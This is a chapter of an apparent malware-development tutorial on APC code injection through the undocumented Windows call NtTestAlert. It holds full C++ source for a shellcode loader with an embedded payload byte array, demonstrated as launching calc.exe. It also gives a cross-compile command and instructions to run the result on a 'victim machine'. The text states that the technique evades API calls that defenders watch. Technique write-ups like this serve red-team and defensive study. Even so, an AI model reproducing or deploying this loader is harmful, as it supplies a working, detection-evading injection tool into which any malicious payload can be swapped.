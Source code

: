 \newpage
\subsection{14. APC injection via NtTestAlert. Simple C++ malware.}

﷽

![APC injection](./images/22/2021-11-21_13-18.png){width="80%"}    

In last section I wrote about "Early Bird" APC injection technique.     

In this section I will discuss about another APC injection technique. Its meaning is that we are using an undocumented function `NtTestAlert`. So let's go to show how to execute shellcode within a local process by leveraging a Win32 API `QueueUserAPC` and an officially undocumented Native API `NtTestAlert`.    

### NtTestAlert

**NtTestAlert** is a system call that’s related to the alerts mechanism of Windows. This system call can cause execution of any pending APCs the thread has. Before a thread starts executing it's Win32 start address it calls `NtTestAlert` to execute any pending APCs.    

### example

Let's take a look at our C++ source code of our malware:    

```cpp
/*
hack.cpp
APC code injection via undocumented NtTestAlert
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/20/malware-injection-4.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

int main(int argc, char* argv[]) {
  SIZE_T my_payload_len = sizeof(my_payload);
  HMODULE hNtdll = GetModuleHandleA("ntdll");
  myNtTestAlert testAlert = (myNtTestAlert)(
    GetProcAddress(hNtdll, "NtTestAlert"));

  LPVOID my_payload_mem = VirtualAlloc(NULL, my_payload_len, 
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(GetCurrentProcess(), 
  my_payload_mem, my_payload, 
  my_payload_len, NULL);

  PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)
  my_payload_mem;
  QueueUserAPC(
    (PAPCFUNC)apcRoutine, 
    GetCurrentThread(), NULL
  );
  testAlert();

  return 0;
}
```

For simplicity, we use 64-bit `calc.exe` as the payload.    

The flow of this technique is simple. Firstly, we allocate memory in the local process for our payload:    

![APC injection 1](./images/22/2021-11-21_13-49.png){width="80%"}    

Then write our payload to newly allocated memory:    

![APC injection 2](./images/22/2021-11-21_13-50.png){width="80%"}    

Then queue an APC to the current thread:    

![APC injection 3](./images/22/2021-11-21_13-52.png){width="80%"}    

Finally, call `NtTestAlert`:    

![APC injection 4](./images/22/2021-11-21_13-53.png){width="80%"}    

Let's go to compile our code:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
 -I/usr/share/mingw-w64/include/ -s -ffunction-sections \
 -fdata-sections -Wno-write-strings -fno-exceptions \
 -fmerge-all-constants -static-libstdc++ -static-libgcc \
 -fpermissive
```

![APC injection 5](./images/22/2021-11-21_13-58.png){width="80%"}    

And run on victim machine (Windows 7 x64 in my case):   

![APC injection 6](./images/22/2021-11-21_14-03.png){width="80%"}    

And If open our `hack.exe` malware in `Ghidra`:

![APC injection 7](./images/22/2021-11-21_15-12.png){width="80%"}    

the `NtTestAlert` function call is not suspicious. So the advantage of this technique is that it does not rely on `CreateThread` or `CreateRemoteThread` API calls which are more popular and suspicious and which is more closely investigated by the blue teamers.   

[APC MSDN](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)         
[QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)          
[VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)      
[GetModuleHandleA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)    
[APC technique MITRE ATT&CK](https://attack.mitre.org/techniques/T1055/004/)    
[NTAPI Undocumented Functions - NtTestAlert](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FAPC%2FNtTestAlert.html)    
[Ghidra - NSA](https://github.com/NationalSecurityAgency/ghidra/)    
[Source Code in Github](https://github.com/cocomelonc/2021-11-20-injection-4)    

I hope this section spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      
